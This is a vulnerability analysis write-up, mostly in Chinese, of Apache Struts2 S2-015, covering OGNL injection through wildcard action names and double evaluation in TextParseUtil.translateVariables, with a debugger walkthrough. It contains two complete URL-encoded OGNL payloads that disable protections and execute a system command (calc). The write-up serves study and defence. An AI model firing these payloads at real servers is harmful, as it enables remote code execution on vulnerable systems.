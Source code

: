 # S2-015 Demo

## Summary

Impact of vulnerability: Remote command execution, remote server context manipulation, injection of malicious client side code

Affected Software:  `Struts 2.0.0` - `Struts 2.3.14.2`

Problem: 

1. Action的名称没有转义和检查是否符合白名单。一个场景是当action name配置为通配符，攻击者可以通过访问`<ognl_expression>.action`来传入`ognl`表达式，并在加载`jsp`文件时触发执行。

   ```java
   <action name="*" class="example.ExampleSupport">
       <result>/example/{1}.jsp</result>
   </action>
   ```

   ![{3F466E24-9A06-4BB6-81E5-FA37C1198FC9}_20200720185919]({3F466E24-9A06-4BB6-81E5-FA37C1198FC9}_20200720185919.jpg)

   Payload1: 

   ```
   /s2_015_war_exploded/%24%7b%23%63%6f%6e%74%65%78%74%5b%27%78%77%6f%72%6b%2e%4d%65%74%68%6f%64%41%63%63%65%73%73%6f%72%2e%64%65%6e%79%4d%65%74%68%6f%64%45%78%65%63%75%74%69%6f%6e%27%5d%3d%66%61%6c%73%65%2c%23%6d%3d%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2e%67%65%74%43%6c%61%73%73%28%29%2e%67%65%74%44%65%63%6c%61%72%65%64%46%69%65%6c%64%28%27%61%6c%6c%6f%77%53%74%61%74%69%63%4d%65%74%68%6f%64%41%63%63%65%73%73%27%29%2c%23%6d%2e%73%65%74%41%63%63%65%73%73%69%62%6c%65%28%74%72%75%65%29%2c%23%6d%2e%73%65%74%28%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2c%74%72%75%65%29%2c%23%71%3d%40%6f%72%67%2e%61%70%61%63%68%65%2e%63%6f%6d%6d%6f%6e%73%2e%69%6f%2e%49%4f%55%74%69%6c%73%40%74%6f%53%74%72%69%6e%67%28%40%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%40%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%27%63%61%6c%63%27%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%29%2c%23%71%7d.action
   ```

   

2. 当`$`和`%`字符组合使用时，`ognl`表达式会被`TextParseUtil.translateVariables`二次执行。

   ```java
   <action name="Helloworld" class="org.test.HelloworldAction">
   	<result name="success" type="httpheader">
   		<param name="headers.foobar">${message}</param>
   	</result>
   </action>
   ```

   ![{E450977C-E4EB-4B47-9D8B-494207ADCDDD}_20200721165527]({E450977C-E4EB-4B47-9D8B-494207ADCDDD}_20200721165527.jpg)

   Payload2: 

   ```
   /s2_015_war_exploded/Helloworld.action?message=%25%7b%23%63%6f%6e%74%65%78%74%5b%27%78%77%6f%72%6b%2e%4d%65%74%68%6f%64%41%63%63%65%73%73%6f%72%2e%64%65%6e%79%4d%65%74%68%6f%64%45%78%65%63%75%74%69%6f%6e%27%5d%3d%66%61%6c%73%65%2c%23%6d%3d%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2e%67%65%74%43%6c%61%73%73%28%29%2e%67%65%74%44%65%63%6c%61%72%65%64%46%69%65%6c%64%28%27%61%6c%6c%6f%77%53%74%61%74%69%63%4d%65%74%68%6f%64%41%63%63%65%73%73%27%29%2c%23%6d%2e%73%65%74%41%63%63%65%73%73%69%62%6c%65%28%74%72%75%65%29%2c%23%6d%2e%73%65%74%28%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2c%74%72%75%65%29%2c%23%71%3d%40%6f%72%67%2e%61%70%61%63%68%65%2e%63%6f%6d%6d%6f%6e%73%2e%69%6f%2e%49%4f%55%74%69%6c%73%40%74%6f%53%74%72%69%6e%67%28%40%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%40%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%27%63%61%6c%63%27%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%29%2c%23%71%7d
   ```

## Environment

Struts2 Version: `Struts-2.2.3`

Server: `Tomcat 8.5.53`

IDE: `idea 2020.1.1 ULTIMATE`

## Debug

第二个问题有点类似于`s2-012`，这里不分析了，只看下第一个。

在`s2-015/web/WEB-INF/lib/xwork-core-2.2.3.jar!/com/opensymphony/xwork2/DefaultActionInvocation.class:199`下个断点，这里是已经执行过前面所有的interceptor，准备执行action的execute方法。

发送`payload1`触发断点。

![image-20200721182849833](img/image-20200721181343029.png)

跟入`executeResult()`，创建了一个`ServletDispatcherResult`对象，即默认的result类型为dispatcher（转发）。

![image-20200721184020081](img/image-20200721182650792.png)

跟进`execute()`，两行代码分别是解析要转发的地址以及执行转发操作：

```
public void execute(ActionInvocation invocation) throws Exception {
	this.lastFinalLocation = this.conditionalParse(this.location, invocation); //解析要转发的地址，ongl解析就发生在这里
	this.doExecute(this.lastFinalLocation, invocation); //执行转发操作
}
```

继续跟进`conditionalParse()` -> `translateVariables()` -> `translateVariables()` -> `translateVariables()`，该函数首先扫描`location`中是否存在`${`}和`%{}`的字符串，如果有就将其中的表达式截取出来，并通过`stack.findValue()`查找，最终触发`ognl`表达式：

![image-20200721184634621](img/image-20200721184634621.png)

## Reference

- [S2-015](https://cwiki.apache.org/confluence/display/WW/S2-015)
- [S2-015 远程代码执行漏洞]( https://github.com/vulhub/vulhub/blob/master/struts2/s2-015/README.zh-cn.md)

